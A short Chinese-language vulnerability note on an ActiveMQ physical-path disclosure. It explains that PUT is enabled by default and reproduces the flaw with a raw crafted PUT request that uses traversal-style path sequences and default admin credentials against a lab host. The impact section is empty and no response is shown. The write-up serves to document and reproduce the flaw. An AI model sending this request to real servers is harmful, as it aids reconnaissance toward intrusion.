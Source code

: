 ActiveMQ物理路径泄漏漏洞
一、漏洞简介

ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息
二、漏洞影响
三、复现过程

Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
